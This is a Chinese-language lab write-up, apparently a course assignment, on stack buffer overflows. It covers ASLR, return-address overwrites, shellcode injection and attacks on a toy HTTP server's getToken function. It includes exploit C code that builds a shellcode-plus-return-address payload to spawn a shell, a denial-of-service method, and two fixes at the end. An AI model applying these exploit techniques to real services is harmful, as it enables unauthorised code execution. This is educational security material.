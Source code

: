 #缓冲区溢出实验
> 缓冲区在本实验中指的是在栈中的字符数组，c语言数组没有边界检查，因为向数组中填入了超过其大小的数据，导致其溢出覆盖了其他数据，引起安全问题。

现代操作系统都引入了一些列的保护措施，如 **内存地址随机化** 。

 实验1，在`func`中输出`buffer`的地址，因为内存随机化的原因，三次输出的地址都是不相同的，分别是`0x0xbfb47750 0xbfe06650 0xbfbbe4f0`。
 > 内存地址随机化：每次程序执行，其栈地址都不相同，这让我们很难猜测函数的返回地址
 
 在实验3中，因为关闭了ASLR，所以三次输出的地址都相同。在实验四中，用gdb打印出`%eip`的值，这个值不是一个正常的程序地址，因为ret被缓冲区溢出的数据改变了，所以程序崩溃了
。我们可以overwrite这个函数的返回地址，让其指向我们的代码，这样我们就进行了一个缓冲区溢出攻击。

实验5，先是通过gdb手动修改了func函数的返回地址
让其指向badman这个函数，因为badman不是正常调用运行的，所以在其结束时，程序不知指向何方产生了段错误，为了解决这种情况，我们可以
在badman中调用exit函数来结束程序。

实验6，用提供的shellcode来是stack2产生一个shell，程序如下
```c
int func(char *str)//在主函数中把shellcode的地址传给str
{
  char buffer[128];
  /* fill code in here:
   */
   int * ret;//定义一个指向返回地址的指针
   ret=(int *) (buffer+144);//经过gdb，发现ret在buffer+144的地方
   //  *ret =int buffer;//不能在这里直接给*ret赋值，回被str覆盖掉
  strcpy(buffer, str);
 (*ret) = (int) buffer;
  return 1;
}

```
实验7，找出给的服务器的漏洞，经查找，在getToken这个函数中存在一个`while(1)`，如果不满足一定的条件，`s[i]`会一直被赋值，这里会
导致s[1024]这个数组溢出。

> getToken用来取“GET / http1.1\r\n\r\n”，在遇到`' '`或者`\r\n`时会`return`

实验8，攻击服务器，是浏览器一直处于等待服务器信息的状态，利用上一个实验发现的饿漏洞，只要发送http请求时，没有空格和换行符，getToken
就一直处于while循环中，服务器卡住。

实验9，通过栈溢出，是服务器端产生一个shell。

>这里不能让getToken处于死循环，如果这样getToken就不能返回，也就不能执行我们的代码。经过测试，浏览器发送1065个字节的数据给服务器，最后一个自己诶为空格符（使gettoken退出）
,这里发送的字节不能多也不能少，少了没法覆盖返回地址，多了会把fd给淹没掉，socket连接会被关掉。

关键程序代码如下
```c
  char uri[1065];//uri不能太大，否则会把是getToken的参数fd也覆盖掉，这样getchar就读不到fd程序在getchar内终止
	/*先把返回地址写到字符数组*/
  long *addr_s;
  int i;
  addr_s=(long *)uri;
  for(i=0;i<266;i++)
         addr_s[i]=0xbffff9e8;//返回地址为通过gdb服务器得到的
         //在gdb服务器时，调试子进程需要设置如下参数
         //set follow-fork-mode child 
  for(i=0;i<strlen(shellcode);i++)
           uri[i]=shellcode[i];
     uri[1065]='\0';
     uri[1064]=' ';
     //这里的uri是传给socket套接字的
 
```

实验10:修复缓冲区漏洞

1. 可以通过监视s[i]中i的值来防止缓冲区被溢出`if(i>=1024) return;`
2. 可以在s[1023]处，添加个变量，如果检测到该值被修改，退出


